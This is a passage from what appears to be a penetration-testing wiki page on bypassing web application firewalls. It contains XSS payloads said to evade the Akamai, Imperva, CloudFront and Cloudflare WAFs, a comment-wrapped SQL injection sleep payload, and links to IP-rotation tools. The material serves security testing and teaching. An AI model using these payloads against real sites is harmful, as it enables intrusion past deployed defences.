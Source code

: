 In the post the following final bypasses are suggested:

- Akamai:`akamai.com/?x=<x/%u003e/tabindex=1 autofocus/onfocus=x=self;x['ale'%2b'rt'](999)>`
- Imperva:`imperva.com/?x=<x/\x3e/tabindex=1 style=transition:0.1s autofocus/onfocus="a=document;b=a.defaultView;b.ontransitionend=b['aler'%2b't'];style.opacity=0;Object.prototype.toString=x=>999">`
- AWS/Cloudfront:`docs.aws.amazon.com/?x=<x/%26%23x3e;/tabindex=1 autofocus/onfocus=alert(999)>`
- Cloudflare:`cloudflare.com/?x=<x tabindex=1 autofocus/onfocus="style.transition='0.1s';style.opacity=0;self.ontransitionend=alert;Object.prototype.toString=x=>999">`

It's also mentioned that depending on **how some WAFs understand the context** of the user input, it might be possible to abuse it. The proposed example in the blog is that Akamai allow(ed) to put anything between `/*` and `*/` (potentially because this is commonly used as comments. Therefore, a SQLinjection such as `/*'or sleep(5)-- -*/` won't be caught and will be valid as `/*` is the starting string of the injection and `*/` is commented.

These kind of context problems can also be used to **abuse other vulnerabilities than the one expected** to be exploited by the WAF (e.g. this could also be used to exploit a XSS).

### H2C Smuggling <a href="#ip-rotation" id="ip-rotation"></a>

{{#ref}}
h2c-smuggling.md
{{#endref}}

### IP Rotation <a href="#ip-rotation" id="ip-rotation"></a>

- [https://github.com/ustayready/fireprox](https://github.com/ustayready/fireprox): Generate an API gateway URL to by used with ffuf
- [https://github.com/rootcathacking/catspin](https://github.com/rootcathacking/catspin): Similar to fireprox
- [https://github.com/PortSwigger/ip-rotate](https://github.com/PortSwigger/ip-rotate): Burp Suite plugin that uses API gateway IPs
- [https://github.com/fyoorer/ShadowClone](https://github.com/fyoorer/ShadowClone): A dynamically determined number of container instances are activated based on the input file size and split factor, with the input split into chunks for parallel execution, such as 100 instances processing 100 chunks from a 10,000-line input file with a split factor of 100 lines.
- [https://0x999.net/blog/exploring-javascript-events-bypassing-wafs-via-character-normalization#bypassing-web-application-firewalls-via-character-normalization](https://0x999.net/blog/exploring-javascript-events-bypassing-wafs-via-character-normalization#bypassing-web-application-firewalls-via-character-normalization)

### Regex Bypasses

Different techniques can be used to bypass the regex filters on the firewalls. Examples include alternating case, adding line breaks, and encoding payloads. Resources for the various bypasses can be found at [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#filter-bypass-and-exotic-payloads) and [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html). The examples below were pulled from [this article](https://medium.com/@allypetitt/5-ways-i-bypassed-your-web-application-firewall-waf-43852a43a1c2).
